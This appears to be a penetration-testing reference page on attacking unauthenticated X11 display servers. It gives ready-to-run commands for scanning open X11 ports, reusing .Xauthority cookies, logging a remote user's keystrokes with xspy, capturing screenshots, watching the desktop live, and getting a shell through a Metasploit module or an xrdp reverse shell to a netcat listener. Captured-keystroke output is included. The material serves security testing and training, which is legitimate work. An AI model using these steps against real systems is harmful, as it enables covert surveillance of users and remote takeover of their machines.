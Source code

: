 # 6000 - Pentesting X11

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**X Window System** (X) is a versatile windowing system prevalent on UNIX-based operating systems. It provides a framework for creating graphical **user interfaces (GUIs)**, with individual programs handling the user interface design. This flexibility allows for diverse and customizable experiences within the X environment.

**Default port:** 6000

```
PORT       STATE   SERVICE
6000/tcp   open    X11
```

## Enumeration

Check for **anonymous connection:**

```bash
nmap -sV --script x11-access -p <PORT> <IP>
msf> use auxiliary/scanner/x11/open_x11
```

#### Local Enumeration

The file **`.Xauthority`** in the users home folder is **used** by **X11 for authorization**. From [**here**](https://stackoverflow.com/a/37367518):

```bash
$ xxd ~/.Xauthority
00000000: 0100 0006 6d61 6e65 7063 0001 3000 124d  ............0..M
00000010: 4954 2d4d 4147 4943 2d43 4f4f 4b49 452d  IT-MAGIC-COOKIE-
00000020: 3100 108f 52b9 7ea8 f041 c49b 85d8 8f58  1...R.~..A.....X
00000030: 041d ef                                  ...
```

> MIT-magic-cookie-1: Generating 128bit of key (“cookie”), storing it in \~/.Xauthority (or where XAUTHORITY envvar points to). The client sends it to server plain! the server checks whether it has a copy of this “cookie” and if so, the connection is permitted. the key is generated by DMX.

> [!WARNING]
> In order to **use the cookie** you should set the env var: **`export XAUTHORITY=/path/to/.Xauthority`**

#### Local Enumeration Session

```bash
$ w
 23:50:48 up 1 day, 10:32,  1 user,  load average: 0.29, 6.48, 7.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
user     tty7     :0               13Oct23 76days 13:37   2.20s xfce4-session
```

In the example, `localhost:0` was running xfce4-session.

## Verfy Connection

```bash
xdpyinfo -display <ip>:<display>
xwininfo -root -tree -display <IP>:<display> #Ex: xwininfo -root -tree -display 10.5.5.12:0
```

## Keyloggin

[xspy](http://tools.kali.org/sniffingspoofing/xspy) to sniff the keyboard keystrokes.

Sample Output:

```
xspy 10.9.xx.xx

opened 10.9.xx.xx:0 for snoopng
swaBackSpaceCaps_Lock josephtTabcBackSpaceShift_L workShift_L 2123
qsaminusKP_Down KP_Begin KP_Down KP_Left KP_Insert TabRightLeftRightDeletebTabDownnTabKP_End KP_Right KP_Up KP_Down KP_Up KP_Up TabmtminusdBackSpacewinTab
```

## Screenshots capturing

```bash
xwd -root -screen -silent -display <TargetIP:0> > screenshot.xwd
convert screenshot.xwd screenshot.png
```

## Remote Desktop View

Way from: [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

```
./xrdp.py <IP:0>
```

Way from: [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)

First we need to find the ID of the window using xwininfo

```
xwininfo -root -display 10.9.xx.xx:0

xwininfo: Window id: 0x45 (the root window) (has no name)

Absolute upper-left X:  0
Absolute upper-left Y:  0
Relative upper-left X:  0
Relative upper-left Y:  0
Width: 1024
Height: 768
Depth: 16
Visual: 0x21
Visual Class: TrueColor
Border width: 0
Class: InputOutput
Colormap: 0x20 (installed)
Bit Gravity State: ForgetGravity
Window Gravity State: NorthWestGravity
Backing Store State: NotUseful
Save Under State: no
Map State: IsViewable
Override Redirect State: no
Corners:  +0+0  -0+0  -0-0  +0-0
-geometry 1024x768+0+0
```

**XWatchwin**

For **live viewing** we need to use

```bash
./xwatchwin [-v] [-u UpdateTime] DisplayName { -w windowID | WindowName } -w window Id is the one found on xwininfo
./xwatchwin 10.9.xx.xx:0 -w 0x45
```

## Get Shell

```
msf> use exploit/unix/x11/x11_keyboard_exec
```

Other way:

**Reverse Shell:** Xrdp also allows to take reverse shell via Netcat. Type in the following command:

```bash
./xrdp.py \<IP:0> –no-disp
```

In the interface you can see the **R-shell option**.

Then, start a **Netcat listener** in your local system on port 5555.

```bash
nc -lvp 5555
```

Then, put your IP address and port in the **R-Shell** option and click on **R-shell** to get a shell

## References

- [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)
- [https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html](https://bitvijays.github.io/LFF-IPS-P2-VulnerabilityAnalysis.html)
- [https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref](https://resources.infosecinstitute.com/exploiting-x11-unauthenticated-access/#gref)

## Shodan

- `port:6000 x11`

{{#include ../banners/hacktricks-training.md}}



